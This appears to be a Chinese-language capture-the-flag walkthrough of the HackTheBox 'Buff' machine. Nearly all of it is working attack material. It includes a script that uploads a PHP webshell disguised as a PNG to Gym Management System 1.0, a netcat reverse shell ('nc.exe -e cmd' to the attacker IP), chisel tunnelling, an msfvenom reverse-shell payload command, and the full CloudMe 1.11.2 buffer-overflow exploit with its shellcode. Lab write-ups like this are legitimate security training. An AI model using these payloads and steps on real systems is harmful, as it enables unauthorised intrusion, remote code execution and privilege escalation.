

## Buff
#### 提示里的:#msfvenom -a x86 -p windows/exec CMD=calc.exe -b '\x00\x0A\x0D' -f python

#### 操作命令:msfvenom -a x86 -p windows/shell_reverse_tcp LHOST=10.10.14.134 LPORT=443 -b '\x00\x0A\x0D' -f python -v payload
### 方法一：https://www.exploit-db.com/exploits/48389 ：CloudMe 1.11.2 - Buffer Overflow (PoC)
### 方法二：[★]$ searchsploit cloudme
### 总结
```

竟然有个7680/tcp filtered pando-pub端口扫描不到
[★]$ nmap -p- --min-rate 1000 -oA nmap-alltcp 10.129.2.18

[★]$ gobuster dir -u http://10.129.2.18:8080 -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -x php -t 40 -o gobuster-root-small-php

[★]$ searchsploit gym management
[★]$ searchsploit -m php/webapps/48506.py

// 我们可以从这里下载健身房管理软件。让我们看一下源代码理解它是如何工作的。
https://projectworlds.com/free-projects/php-projects/gym-management-system-project-in-php/
[★]$ unzip Gym-Management-System-Project-in-PHP.zip
[★]$ cat upload.php
根据对该应用程序的公开分析，upload.php存在漏洞是因为应用程序不检查用户是否经过身份验证。

在PNG里插入反弹shell的python:[★]$ cat upload.py

PNG_magicBytes = '\x89\x50\x4e\x0d\x0a\x1a'
[★]$ python3 upload.py
Uploaded!


[★]$ python2 -version
[★]$ pyenv shell 2.7.18
[★]$ python2 --version
Python 2.7.18
[★]$ python2 -m pip install requests
[★]$ python2 -m pip install colorama
[★]$ python2 48506.py http://10.129.2.18:8080/

这个靶机遇到的问题就是无法使用python3 -m http.server Port
[★]$ smbserver.py share . -smb2support 

C:\xampp\htdocs\gym\upload> net use \\10.10.14.134\share
C:\xampp\htdocs\gym\upload> copy \\10.10.14.134\share\nc64.exe C:\programdata\nc.exe
C:\xampp\htdocs\gym\upload> \programdata\nc.exe -e cmd 10.10.14.134 443

[★]$ sudo nc -lvnp 443

C:\xampp\htdocs\gym\upload>netstat -ano | findstr TCP | findstr ":0"
  TCP    [::]:8080              [::]:0                 LISTENING       8768

任务列表中获取进程ID（8768）并为其grep（或findstr）（侦听进程ID每分钟都在变化，因此我必须快速搜索）：
C:\xampp\htdocs\gym\upload>tasklist /v | findstr 8768
httpd.exe                     8768                            0         92 K Unknown         BUFF\shaun        

 Directory of C:\Users\shaun\Downloads

14/07/2020  12:27    <DIR>          .
14/07/2020  12:27    <DIR>          ..
16/06/2020  15:26        17,830,824 CloudMe_1112.exe //二进制文件监听的是本地主机上的是8888端口

[★]$ searchsploit cloudme

在https://github.com/jpillora/chisel/releases下载chisel_1.6.0_windows_amd64

chisel 的作用只有一个词：
🔁 端口转发（隧道）
你做的是：
👉 把「目标机的 8888」
👉 映射到「你攻击机的 8888」

[★]$ gunzip chisel_1.6.0_windows_amd64.gz
C:\ProgramData>net use \\10.10.14.134\share
C:\ProgramData>copy \\10.10.14.134\share\chisel_1.6.0_windows_amd64 c.exe
C:\ProgramData>.\c.exe client 10.10.14.134:8000 R:8888:localhost:8888

[★]$ gunzip chisel_1.6.0_linux_amd64.gz
[★]$ chmod 777 chisel_1.6.0_linux_amd64
[★]$ ./chisel_1.6.0_linux_amd64 server -p 8000 --reverse

[★]$ netstat -ntlp
tcp        0      0 0.0.0.0:8888            0.0.0.0:*               LISTEN      128098/./chisel_1.6 
tcp6       0      0 :::8000                 :::*                    LISTEN      128098/./chisel_1.6 

CloudMe_1.11.2.exe //二进制文件监听的是本地主机上的是8888端口

[★]$ searchsploit cloudme
[★]$ searchsploit -m windows/remote/48389.py 

[★]$ msfvenom -a x86 -p windows/shell_reverse_tcp LHOST=10.10.14.134 LPORT=443 -b '\x00\x0A\x0D' -f python -v payload
[★]$ vi 48389.py
[★]$ python3 48389.py


[★]$ sudo nc -lvnp 443
C:\Windows\system32>whoami
whoami
buff\administrator

```
```
[★]$ nmap -sC -sV 10.129.2.18
Starting Nmap 7.94SVN ( https://nmap.org ) at 2026-02-05 03:10 CST
Nmap scan report for 10.129.2.18
Host is up (0.067s latency).
Not shown: 999 filtered tcp ports (no-response)
PORT     STATE SERVICE VERSION
8080/tcp open  http    Apache httpd 2.4.43 ((Win64) OpenSSL/1.1.1g PHP/7.4.6)
|_http-title: mrb3n's Bro Hut
|_http-server-header: Apache/2.4.43 (Win64) OpenSSL/1.1.1g PHP/7.4.6
| http-open-proxy: Potentially OPEN proxy.
|_Methods supported:CONNECTION
_______________
[★]$ nmap -p- --min-rate 1000 -oA nmap-alltcp 10.129.2.18
Starting Nmap 7.94SVN ( https://nmap.org ) at 2026-02-06 01:34 CST
Nmap scan report for 10.129.2.18
Host is up (0.049s latency).
Not shown: 65534 filtered tcp ports (no-response)
PORT     STATE SERVICE
8080/tcp open  http-proxy
_______________
[★]$ nmap -p 7680,8080 -sC -sV -oA nmap-tcpscans 10.129.2.18
Starting Nmap 7.94SVN ( https://nmap.org ) at 2026-02-06 01:33 CST
Nmap scan report for 10.129.2.18
Host is up (0.057s latency).

PORT     STATE    SERVICE   VERSION
7680/tcp filtered pando-pub
8080/tcp open     http      Apache httpd 2.4.43 ((Win64) OpenSSL/1.1.1g PHP/7.4.6)
| http-open-proxy: Potentially OPEN proxy.
|_Methods supported:CONNECTION
|_http-title: mrb3n's Bro Hut
|_http-server-header: Apache/2.4.43 (Win64) OpenSSL/1.1.1g PHP/7.4.6

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 24.80 seconds
```
```
[★]$ gobuster dir -u http://10.129.2.18:8080 -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -x php -t 40 -o gobuster-root-small-php
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.129.2.18:8080
[+] Method:                  GET
[+] Threads:                 40
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              php
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/img                  (Status: 301) [Size: 339] [--> http://10.129.2.18:8080/img/]
/profile              (Status: 301) [Size: 343] [--> http://10.129.2.18:8080/profile/]
/index.php            (Status: 200) [Size: 4969]
/about.php            (Status: 200) [Size: 5337]
/home.php             (Status: 200) [Size: 143]
/contact.php          (Status: 200) [Size: 4169]
/Home.php             (Status: 200) [Size: 143]
/register.php         (Status: 200) [Size: 137]
/upload               (Status: 301) [Size: 342] [--> http://10.129.2.18:8080/upload/]
/feedback.php         (Status: 200) [Size: 4252]
/upload.php           (Status: 200) [Size: 107]
/license              (Status: 200) [Size: 18025]
/Contact.php          (Status: 200) [Size: 4169]
/edit.php             (Status: 200) [Size: 4282]
/About.php            (Status: 200) [Size: 5337]
/Index.php            (Status: 200) [Size: 4969]
/up.php               (Status: 200) [Size: 209]
/packages.php         (Status: 200) [Size: 7791]
/examples             (Status: 503) [Size: 1057]
/include              (Status: 301) [Size: 343] [--> http://10.129.2.18:8080/include/]
/licenses             (Status: 403) [Size: 1202]
/facilities.php       (Status: 200) [Size: 5961]
```
```
[★]$ searchsploit gym management
---------------------------------------------- ---------------------------------
 Exploit Title                                |  Path
---------------------------------------------- ---------------------------------
Gym Management System 1.0 - 'id' SQL Injectio | php/webapps/48936.txt
Gym Management System 1.0 - Authentication By | php/webapps/48940.txt
Gym Management System 1.0 - Stored Cross Site | php/webapps/48941.txt
Gym Management System 1.0 - Unauthenticated R | php/webapps/48506.py //这个
GYM MS - GYM Management System - Cross Site S | php/webapps/51777.txt
---------------------------------------------- ---------------------------------
Shellcodes: No Results

[★]$ searchsploit -m php/webapps/48506.py
  Exploit: Gym Management System 1.0 - Unauthenticated Remote Code Execution
      URL: https://www.exploit-db.com/exploits/48506
     Path: /usr/share/exploitdb/exploits/php/webapps/48506.py
    Codes: N/A
 Verified: False
File Type: Python script, ASCII text executable
Copied to: /home/syareya55/48506.py

[★]$ ls
48506.py
```
#### 在浏览器8080端口，Contact：
```
    mrb3n's Bro Hut
    Made using Gym Management Software 1.0 
```
### Foothold
#### 我们知道web应用程序正在运行Gym Management Software 1.0。寻找此应用程序的已知问题揭示了未经身份验证的文件上传漏洞，其中允许攻击者获得RCE。
#### 我们可以从这里下载健身房管理软件。让我们看一下源代码理解它是如何工作的。
https://projectworlds.com/free-projects/php-projects/gym-management-system-project-in-php/
#### 点击‘ Download Poject'下载Gym-Management-System-Project-in-PHP.zip
```
[★]$ unzip Gym-Management-System-Project-in-PHP.zip
[★]$ cd Gym-Management-System-Project-in-PHP
[★]$ ls
 4.jpg         editp.php        LICENSE                  register_success.php
 about.php     ex               members.sql              subfeed.php
 admin         facilities.php   Navjeet.jpg              table.sql
 att           Feedback.php    'New Text Document.txt'   upload
 att.php       home.php         packages.php             upload.php
 boot          img              profile                  up.php
 contact.php   include          README.md                workouts
 edit.php      index.php        register.php

```
#### 根据对该应用程序的公开分析，upload.php存在漏洞是因为应用程序不检查用户是否经过身份验证。
```
[★]$ cat upload.php
<?php
include_once 'include/db_connect.php';
include_once 'include/functions.php';
$user = $_GET['id'];
$allowedExts = array("jpg", "jpeg", "gif", "png","JPG");
$extension = @end(explode(".", $_FILES["file"]["name"]));
if(isset($_POST['pupload'])){
if ((($_FILES["file"]["type"] == "image/gif")
|| ($_FILES["file"]["type"] == "image/jpeg")
|| ($_FILES["file"]["type"] == "image/JPG")
|| ($_FILES["file"]["type"] == "image/png")
|| ($_FILES["file"]["type"] == "image/pjpeg"))
&& ($_FILES["file"]["size"] < 20000000000000)
&& in_array($extension, $allowedExts))
  {
  if ($_FILES["file"]["error"] > 0)
    {
    echo "Return Code: " . $_FILES["file"]["error"] . "<br>";
    }
  else
    {
    

    if (file_exists("upload/" . $_FILES["file"]["name"]))
      {
      unlink("upload/" . $_FILES["file"]["name"]);
      }
    else
      {
          $pic=$_FILES["file"]["name"];
            $conv=explode(".",$pic);
            $ext=$conv['1'];

      move_uploaded_file($_FILES["file"]["tmp_name"],
      "upload/". $user.".".$ext);
      $url=$user.".".$ext;
    
      $query="update members set pic=1, picName='$url' where id='$user'";
      if($upl=$mysqli->query($query)){
          header("location: profile/i.php");
              }
      }
    }
  }
else
  
  header("location: /profile/i.php");

  }

?>
```
#### 查看upload.php的源代码，我们看到它接受GET参数id和将值分配给可变用户。它还检查图像文件是否有效，但我们可以绕过这些过滤器通过添加双扩展名。让我们创建一个简单的Python脚本来上传我们的恶意PHP代码
```
[★]$ cat upload.py
#!/usr/bin/env python3

import requests

def Main():
    url = "http://10.129.2.18:8080/upload.php?id=test"
    s = requests.Session()
    s.get(url, verify=False)
    PNG_magicBytes = '\x89\x50\x4e\x0d\x0a\x1a'
    png = {
            'file':
            (
                'test.php.png',
                PNG_magicBytes+'\n'+'<?php echo shell_exec($_GET["cmd"]); ?>',
                'image/png',
                {'Content-Disposition': 'form-data'}
                )
            }
    data = {'pupload': 'upload'}
    r = s.post(url=url, files=png, data=data, verify=False)
    print("Uploaded!")

if __name__ == "__main__":
    Main()


```
#### 我们通过在PNG文件前加上magic bytes for来满足检查这是一个有效的PNG文件十六进制格式为0x8950。
https://en.wikipedia.org/wiki/List_of_file_signatures
#### 89 50 4E 47 0D 0A 1A 0A  	‰PNG␍␊␚␊	0	png
#### webshell中的PHP代码将执行我们在GET请求中提供的任何命令cmd参数。让我们执行Python代码。
```
[★]$ python3 upload.py
Uploaded!
```
#### 接下来，让我们导航到/upload/test.php并尝试执行一个命令。
```
[★]$ curl http://10.129.2.18:8080/upload/test.php?cmd=whoami
	PN
�
buff\shaun
```
```
[★]$ wget https://github.com/vinsworldcom/NetCat64/releases/download/1.11.6.4/nc64.exe
[★]$ python3 -m http.server  8011
Serving HTTP on 0.0.0.0 port 8011 (http://0.0.0.0:8011/) ...

[★]$ sudo nc -lvnp 443
listening on [any] 443 ...
```
#### 最后，发出下面的命令来下载nc.exe并执行它来生成一个反向shell

______
```
[★]$ searchsploit gym management
---------------------------------------------- ---------------------------------
 Exploit Title                                |  Path
---------------------------------------------- ---------------------------------
Gym Management System 1.0 - 'id' SQL Injectio | php/webapps/48936.txt
Gym Management System 1.0 - Authentication By | php/webapps/48940.txt
Gym Management System 1.0 - Stored Cross Site | php/webapps/48941.txt
Gym Management System 1.0 - Unauthenticated R | php/webapps/48506.py
GYM MS - GYM Management System - Cross Site S | php/webapps/51777.txt
---------------------------------------------- ---------------------------------
Shellcodes: No Results
[★]$ searchsploit -m php/webapps/48506.py
  Exploit: Gym Management System 1.0 - Unauthenticated Remote Code Execution
      URL: https://www.exploit-db.com/exploits/48506
     Path: /usr/share/exploitdb/exploits/php/webapps/48506.py
    Codes: N/A
 Verified: False
File Type: Python script, ASCII text executable
Copied to: /home/syareya55/48506.py

[★]$ python2 -version
pyenv: python2: command not found

The `python2' command exists in these Python versions:
  2.7.18

Note: See 'pyenv help global' for tips on allowing both
      python2 and python3 to be found.
[★]$ pyenv shell 2.7.18
[★]$ python2 --version
Python 2.7.18

[★]$ python2 48506.py http://10.129.2.18:8080/
Traceback (most recent call last):
  File "48506.py", line 37, in <module>
    import requests, sys, urllib, re
ImportError: No module named requests
[★]$ python2 -m pip install requests

[★]$ python2 48506.py http://10.129.2.18:8080/
Traceback (most recent call last):
  File "48506.py", line 38, in <module>
    from colorama import Fore, Back, Style
ImportError: No module named colorama
[★]$ python2 -m pip install colorama

[★]$ python2 48506.py http://10.129.2.18:8080/
            /\
/vvvvvvvvvvvv \--------------------------------------,
`^^^^^^^^^^^^ /============BOKU====================="
            \/

[+] Successfully connected to webshell.
C:\xampp\htdocs\gym\upload> whoami
�PNG
�
buff\shaun

C:\xampp\htdocs\gym\upload> type \users\shaun\desktop\user.txt

```
#### 这个shell在一段时间后变得有点令人沮丧，所以我升级到nc64.exe。我首先在nc64.exe所在的目录中运行smbserver.py：
```
[★]$ smbserver.py share . -smb2support 
Impacket v0.13.0.dev0+20250130.104306.0f4b866 - Copyright Fortra, LLC and its affiliated companies 

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed

```
#### 对于现代Windows，我必须设置用户名和密码。现在我将从Buff映射这个共享：
```
[★]$ python2 48506.py http://10.129.2.18:8080/
            /\
/vvvvvvvvvvvv \--------------------------------------,
`^^^^^^^^^^^^ /============BOKU====================="
            \/

[+] Successfully connected to webshell.
C:\xampp\htdocs\gym\upload> net use \\10.10.14.134\share
�PNG
�
The command completed successfully.


C:\xampp\htdocs\gym\upload> copy \\10.10.14.134\share\nc64.exe C:\programdata\nc.exe
�PNG
�
        1 file(s) copied.

C:\xampp\htdocs\gym\upload> \programdata\nc.exe -e cmd 10.10.14.134 443

```
```
[★]$ sudo nc -lvnp 443
listening on [any] 443 ...
connect to [10.10.14.134] from (UNKNOWN) [10.129.2.18] 49702
Microsoft Windows [Version 10.0.17134.1610]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\xampp\htdocs\gym\upload>whoami
whoami
buff\shaun
```
### Priv: shaun –> administrator
#### 检查netstat显示两个端口仅在本地主机上侦听。3306是MySQL，这对于PHP站点和XAmpp堆栈是有意义的。另一个是8888：
```
C:\xampp\htdocs\gym\upload>netstat -ano | findstr TCP | findstr ":0"
netstat -ano | findstr TCP | findstr ":0"
  TCP    0.0.0.0:135            0.0.0.0:0              LISTENING       924
  TCP    0.0.0.0:445            0.0.0.0:0              LISTENING       4
  TCP    0.0.0.0:5040           0.0.0.0:0              LISTENING       6120
  TCP    0.0.0.0:7680           0.0.0.0:0              LISTENING       8792
  TCP    0.0.0.0:8080           0.0.0.0:0              LISTENING       8768
  TCP    0.0.0.0:49664          0.0.0.0:0              LISTENING       552
  TCP    0.0.0.0:49665          0.0.0.0:0              LISTENING       1116
  TCP    0.0.0.0:49666          0.0.0.0:0              LISTENING       1780
  TCP    0.0.0.0:49667          0.0.0.0:0              LISTENING       2204
  TCP    0.0.0.0:49668          0.0.0.0:0              LISTENING       672
  TCP    0.0.0.0:49669          0.0.0.0:0              LISTENING       680
  TCP    10.129.2.18:139        0.0.0.0:0              LISTENING       4
  TCP    127.0.0.1:3306         0.0.0.0:0              LISTENING       8840
  TCP    [::]:135               [::]:0                 LISTENING       924
  TCP    [::]:445               [::]:0                 LISTENING       4
  TCP    [::]:7680              [::]:0                 LISTENING       8792
  TCP    [::]:8080              [::]:0                 LISTENING       8768
  TCP    [::]:49664             [::]:0                 LISTENING       552
  TCP    [::]:49665             [::]:0                 LISTENING       1116
  TCP    [::]:49666             [::]:0                 LISTENING       1780
  TCP    [::]:49667             [::]:0                 LISTENING       2204
  TCP    [::]:49668             [::]:0                 LISTENING       672
  TCP    [::]:49669             [::]:0                 LISTENING       680

C:\xampp\htdocs\gym\upload>

//netstat = 网络状态查看工具
参数：
-a → 显示所有连接和监听端口
-n → 用数字显示 IP 和端口（不解析域名）
-o → 显示 PID（进程号）

把 netstat 的结果送给 findstr 只保留包含 TCP 的行
findstr ":0"再过滤一次，只保留包含 :0 的行

TCP    0.0.0.0:8080    0.0.0.0:0    LISTENING    8768
本地在监听：8080 端口，对外开放：0.0.0.0（所有网卡），进程 PID：8768
```
#### 我将在任务列表中获取进程ID（8768）并为其grep（或findstr）（侦听进程ID每分钟都在变化，因此我必须快速搜索）：
```
C:\xampp\htdocs\gym\upload>tasklist /v | findstr 8768
tasklist /v | findstr 8768
httpd.exe                     8768                            0         92 K Unknown         BUFF\shaun                                              0:00:01 N/A                                                                     

C:\xampp\htdocs\gym\upload>
```
#### 如果我在shaun的主目录中再挖一点，在下载文件夹中有一个exe文件：
```
C:\Users\shaun\Downloads>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is A22D-49F7

 Directory of C:\Users\shaun\Downloads

14/07/2020  12:27    <DIR>          .
14/07/2020  12:27    <DIR>          ..
16/06/2020  15:26        17,830,824 CloudMe_1112.exe //二进制文件监听的是本地主机上的是8888端口
               1 File(s)     17,830,824 bytes
               2 Dir(s)   7,832,453,120 bytes free

```
#### 我将把cloudme放入searchsplit中，它会返回几个漏洞：
```
[★]$ searchsploit cloudme
------------------------------------------------------------- ---------------------------------
 Exploit Title                                               |  Path
------------------------------------------------------------- ---------------------------------
CloudMe 1.11.2 - Buffer Overflow (PoC)                       | windows/remote/48389.py
CloudMe 1.11.2 - Buffer Overflow (SEH_DEP_ASLR)              | windows/local/48499.txt
CloudMe 1.11.2 - Buffer Overflow ROP (DEP_ASLR)              | windows/local/48840.py
Cloudme 1.9 - Buffer Overflow (DEP) (Metasploit)             | windows_x86-64/remote/45197.rb
CloudMe Sync 1.10.9 - Buffer Overflow (SEH)(DEP Bypass)      | windows_x86-64/local/45159.py
CloudMe Sync 1.10.9 - Stack-Based Buffer Overflow (Metasploi | windows/remote/44175.rb
CloudMe Sync 1.11.0 - Local Buffer Overflow                  | windows/local/44470.py
CloudMe Sync 1.11.2 - Buffer Overflow + Egghunt              | windows/remote/46218.py
CloudMe Sync 1.11.2 Buffer Overflow - WoW64 (DEP Bypass)     | windows_x86-64/remote/46250.py
CloudMe Sync < 1.11.0 - Buffer Overflow                      | windows/remote/44027.py
CloudMe Sync < 1.11.0 - Buffer Overflow (SEH) (DEP Bypass)   | windows_x86-64/remote/44784.py
------------------------------------------------------------- ---------------------------------
Shellcodes: No Results

//第一个
```
#### 为了利用这个服务，我需要一条从我的机器到Buff的隧道（或者我必须从Buff运行这个漏洞，但是Python通常不安装在Windows上）。我会用我最喜欢的工具，凿子。我将使用相同的SMB共享并将Windows二进制文件复制到我在\programdata中暂存的位置。
https://www.exploit-db.com/exploits/48389
#### 在线搜索“CloudMe”版本1.11.2返回这个exploit-db漏洞。检查显示这是一个缓冲区溢出漏洞（参见附录a的代码清单）。当服务在本地主机上侦听时，我们可以使用SOCKS使这个端口对我们的机器可用代理。要做到这一点，我们可以使用凿子。首先，Chisel
https://github.com/jpillora/chisel
在https://github.com/jpillora/chisel/releases下载chisel_1.6.0_windows_amd64
```
[★]$ gunzip chisel_1.6.0_windows_amd64.gz
```
#### 这个是刚刚的nc 443端口
```
C:\ProgramData>net use \\10.10.14.134\share
net use \\10.10.14.134\share
Local name        
Remote name       \\10.10.14.134\share
Resource type     Disk
Status            OK
# Opens           0
# Connections     1
The command completed successfully.


C:\ProgramData>copy \\10.10.14.134\share\chisel_1.6.0_windows_amd64 c.exe
copy \\10.10.14.134\share\chisel_1.6.0_windows_amd64 c.exe
        1 file(s) copied.

C:\ProgramData>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is A22D-49F7

 Directory of C:\ProgramData

06/02/2026  15:17         8,347,648 c.exe
16/06/2020  14:10    <DIR>          Microsoft OneDrive
08/12/2021  04:33            55,296 nc.exe
16/06/2020  14:14    <DIR>          Package Cache
14/07/2020  12:17    <DIR>          Packages
06/02/2026  15:18    <DIR>          regid.1991-06.com.microsoft
11/04/2018  23:38    <DIR>          SoftwareDistribution
16/06/2020  14:09    <DIR>          USOPrivate
16/06/2020  14:09    <DIR>          USOShared
16/06/2020  14:14    <DIR>          VMware
12/04/2018  09:21    <DIR>          WindowsHolographicDevices
               2 File(s)      8,402,944 bytes
               9 Dir(s)   8,228,220,928 bytes free

```
```
你需要 Linux 版 chisel（server）
你应该在攻击机（Pwnbox）用：
chisel_1.6.0_linux_amd64
在靶机（Windows）用：
chisel_1.6.0_windows_amd64.exe
```
```
[★]$ gunzip chisel_1.6.0_linux_amd64.gz
[★]$ chmod 777 chisel_1.6.0_linux_amd64
[★]$ ./chisel_1.6.0_linux_amd64 server -p 8000 --reverse
2026/02/06 09:29:56 server: Reverse tunnelling enabled
2026/02/06 09:29:56 server: Fingerprint f5:ac:52:72:f2:de:3b:1a:09:b2:d0:65:cb:6b:5c:03
2026/02/06 09:29:56 server: Listening on 0.0.0.0:8000...
```
```
C:\ProgramData>.\c.exe client 10.10.14.134:8000 R:8888:localhost:8888
.\c.exe client 10.10.14.134:8000 R:8888:localhost:8888
2026/02/06 15:31:16 client: Connecting to ws://10.10.14.134:8000
2026/02/06 15:31:16 client: Fingerprint f5:ac:52:72:f2:de:3b:1a:09:b2:d0:65:cb:6b:5c:03
2026/02/06 15:31:16 client: Connected (Latency 10.2486ms)

```
```
[★]$ ./chisel_1.6.0_linux_amd64 server -p 8000 --reverse
2026/02/06 09:29:56 server: Reverse tunnelling enabled
2026/02/06 09:29:56 server: Fingerprint f5:ac:52:72:f2:de:3b:1a:09:b2:d0:65:cb:6b:5c:03
2026/02/06 09:29:56 server: Listening on 0.0.0.0:8000...
2026/02/06 09:31:16 server: proxy#1:R:0.0.0.0:8888=>localhost:8888: Listening

[★]$ netstat -ntlp
(Not all processes could be identified, non-owned process info
 will not be shown, you would have to be root to see it all.)
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 194.113.74.174:80       0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:631           0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:53515         0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:445             0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:54927         0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:111             0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:5901          0.0.0.0:*               LISTEN      2184/Xtigervnc      
tcp        0      0 0.0.0.0:8888            0.0.0.0:*               LISTEN      128098/./chisel_1.6 
tcp6       0      0 :::8000                 :::*                    LISTEN      128098/./chisel_1.6 
tcp6       0      0 ::1:5901                :::*                    LISTEN      2184/Xtigervnc      
tcp6       0      0 ::1:631                 :::*                    LISTEN      -                   
tcp6       0      0 :::22                   :::*                    LISTEN      -                   
tcp6       0      0 :::111                  :::*                    LISTEN      
```
### Update Exploit
#### 非常简单，它在端口8888上打开一个到目标的连接，发送一个缓冲区，就完成了。
#### 缓冲区由1052字节的no-op(nop，padding填充)组成，然后是一个push esp,ret gadget的地址，一些nops，有效负载，然后是一些填充。
#### 在不查看二进制文件的情况下，这表明读取用户输入前后的堆栈是这样的：

```
[★]$ searchsploit cloudme //CloudMe_1.11.2.exe //二进制文件监听的是本地主机上的是8888端口
------------------------------------------------------------- ---------------------------------
 Exploit Title                                               |  Path
------------------------------------------------------------- ---------------------------------
CloudMe 1.11.2 - Buffer Overflow (PoC)                       | windows/remote/48389.py

[★]$ searchsploit -m windows/remote/48389.py 
  Exploit: CloudMe 1.11.2 - Buffer Overflow (PoC)
      URL: https://www.exploit-db.com/exploits/48389
     Path: /usr/share/exploitdb/exploits/windows/remote/48389.py
    Codes: N/A
 Verified: False
File Type: Python script, ASCII text executable
Copied to: /home/syareya55/48389.py


```
#### 现在，当函数返回时，它将转到gadget， gadget将把$esp推入堆栈（它现在位于负载之前nops的顶部），然后返回，将指令指针$eip移动到负载后面的nops。
### 修改负载 Modify Payload
```
# Exploit Title: CloudMe 1.11.2 - Buffer Overflow (PoC)
# Date: 2020-04-27
# Exploit Author: Andy Bowden
# Vendor Homepage: https://www.cloudme.com/en
# Software Link: https://www.cloudme.com/downloads/CloudMe_1112.exe
# Version: CloudMe 1.11.2
# Tested on: Windows 10 x86

#Instructions:
# Start the CloudMe service and run the script.

import socket

target = "127.0.0.1"

padding1   = b"\x90" * 1052
EIP        = b"\xB5\x42\xA8\x68" # 0x68A842B5 -> PUSH ESP, RET
NOPS       = b"\x90" * 30

#msfvenom -a x86 -p windows/exec CMD=calc.exe -b '\x00\x0A\x0D' -f python
payload    = b"\xba\xad\x1e\x7c\x02\xdb\xcf\xd9\x74\x24\xf4\x5e\x33"
payload   += b"\xc9\xb1\x31\x83\xc6\x04\x31\x56\x0f\x03\x56\xa2\xfc"
payload   += b"\x89\xfe\x54\x82\x72\xff\xa4\xe3\xfb\x1a\x95\x23\x9f"
payload   += b"\x6f\x85\x93\xeb\x22\x29\x5f\xb9\xd6\xba\x2d\x16\xd8"
payload   += b"\x0b\x9b\x40\xd7\x8c\xb0\xb1\x76\x0e\xcb\xe5\x58\x2f"
payload   += b"\x04\xf8\x99\x68\x79\xf1\xc8\x21\xf5\xa4\xfc\x46\x43"
payload   += b"\x75\x76\x14\x45\xfd\x6b\xec\x64\x2c\x3a\x67\x3f\xee"
payload   += b"\xbc\xa4\x4b\xa7\xa6\xa9\x76\x71\x5c\x19\x0c\x80\xb4"
payload   += b"\x50\xed\x2f\xf9\x5d\x1c\x31\x3d\x59\xff\x44\x37\x9a"
payload   += b"\x82\x5e\x8c\xe1\x58\xea\x17\x41\x2a\x4c\xfc\x70\xff"
payload   += b"\x0b\x77\x7e\xb4\x58\xdf\x62\x4b\x8c\x6b\x9e\xc0\x33"
payload   += b"\xbc\x17\x92\x17\x18\x7c\x40\x39\x39\xd8\x27\x46\x59"
payload   += b"\x83\x98\xe2\x11\x29\xcc\x9e\x7b\x27\x13\x2c\x06\x05"
payload   += b"\x13\x2e\x09\x39\x7c\x1f\x82\xd6\xfb\xa0\x41\x93\xf4"
payload   += b"\xea\xc8\xb5\x9c\xb2\x98\x84\xc0\x44\x77\xca\xfc\xc6"
payload   += b"\x72\xb2\xfa\xd7\xf6\xb7\x47\x50\xea\xc5\xd8\x35\x0c"
payload   += b"\x7a\xd8\x1f\x6f\x1d\x4a\xc3\x5e\xb8\xea\x66\x9f"

overrun    = b"C" * (1500 - len(padding1 + NOPS + EIP + payload))       

buf = padding1 + EIP + NOPS + payload + overrun 

try:
        s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.connect((target,8888))  //从这里看CloudMe_1112.exe,二进制文件监听的是本地主机上的是8888端口
        s.send(buf)
except Exception as e:
        print(sys.exc_value)
```
